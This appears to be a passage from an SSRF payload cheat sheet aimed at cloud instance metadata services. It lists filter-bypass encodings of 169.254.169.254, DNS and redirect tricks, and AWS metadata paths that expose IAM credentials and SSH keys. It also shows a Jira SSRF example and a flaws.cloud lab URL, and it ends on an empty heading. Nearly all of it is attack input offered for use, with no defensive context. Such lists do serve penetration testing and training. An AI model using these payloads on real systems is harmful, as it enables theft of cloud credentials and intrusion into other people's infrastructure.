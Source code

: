 DNS record

```powershell
http://instance-data
http://169.254.169.254
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
```

HTTP redirect

```powershell
Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
```

Alternate IP encoding

```powershell
http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
```

More urls to include

```powershell
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

E.g: Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

E.g2: Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

### SSRF URL for AWS ECS
